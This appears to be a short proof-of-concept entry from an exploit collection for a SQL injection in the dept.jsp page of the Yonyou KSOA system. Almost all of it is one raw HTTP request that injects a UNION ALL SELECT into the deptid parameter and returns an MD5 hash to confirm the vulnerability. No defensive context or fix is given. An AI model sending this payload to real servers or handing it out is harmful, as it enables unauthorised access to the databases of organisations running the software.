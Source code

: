 # yonyou_ksoa_dept.jsp_sqli

time: 2024/01/02
@1
from:https://mp.weixin.qq.com/s/I6aG2vFIi5nbVZfuVNpyDw

```
GET /common/dept.jsp?deptid=1' UNION ALL SELECT 60%2Csys.fn_sqlvarbasetostr(HASHBYTES('MD5'%2C'12345'))-- HTTP/1.1
Host: 127.0.0.1:898
User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)
Accept: */*
Connection: Keep-Alive
```
